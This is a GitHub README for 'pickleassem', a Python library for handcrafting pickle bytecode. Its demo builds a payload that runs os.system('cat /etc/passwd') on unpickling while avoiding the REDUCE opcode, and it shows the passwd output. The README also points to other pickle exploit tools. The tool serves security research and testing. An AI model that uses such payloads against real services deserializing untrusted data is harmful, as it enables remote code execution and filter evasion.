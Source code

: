 # pickleassem

[![PyPI - Downloads](https://pepy.tech/badge/pickleassem)](https://pepy.tech/count/pickleassem)
[![PyPI - Version](https://img.shields.io/pypi/v/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Format](https://img.shields.io/pypi/format/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Status](https://img.shields.io/pypi/status/pickleassem.svg)](https://pypi.org/project/pickleassem)
![License](https://img.shields.io/github/license/gousaiyang/pickleassem.svg)

A simple pickle assembler to make handcrafting pickle bytecode easier.

## Demo

```python
import pickle
import pickletools

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.push_short_binunicode('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
assert b'R' not in payload
print(payload)
pickletools.dis(payload, annotate=1)
pickle.loads(payload)
```

Output:

```
b'\x80\x04(\x8c\x0fcat /etc/passwdios\nsystem\n.'
    0: \x80 PROTO      4 Protocol version indicator.
    2: (    MARK         Push markobject onto the stack.
    3: \x8c     SHORT_BINUNICODE 'cat /etc/passwd' Push a Python Unicode string object.
   20: i        INST       'os system' (MARK at 2) Build a class instance.
   31: .    STOP                                   Stop the unpickling machine.
highest protocol among opcodes = 4
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
0
```

## Installation

Install with pip: `pip install -U pickleassem`

## Documentation

Just refer to the source code. Each method of `PickleAssembler` whose name begins with `push`, `build`, `pop` or `memo` corresponds to a pickle opcode.

The following opcodes and corresponding features are not implemented: `PERSID`, `BINPERSID`, `EXT1`, `EXT2`, `EXT4`, `FRAME`, `NEXT_BUFFER`, `READONLY_BUFFER`.

## See Also

Other tools for pickle exploit:

- `anapickle`: [slides](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf), [repo](https://github.com/sensepost/anapickle)
- [`pwnypack.pickle`](https://github.com/edibledinos/pwnypack/blob/master/pwnypack/pickle.py)
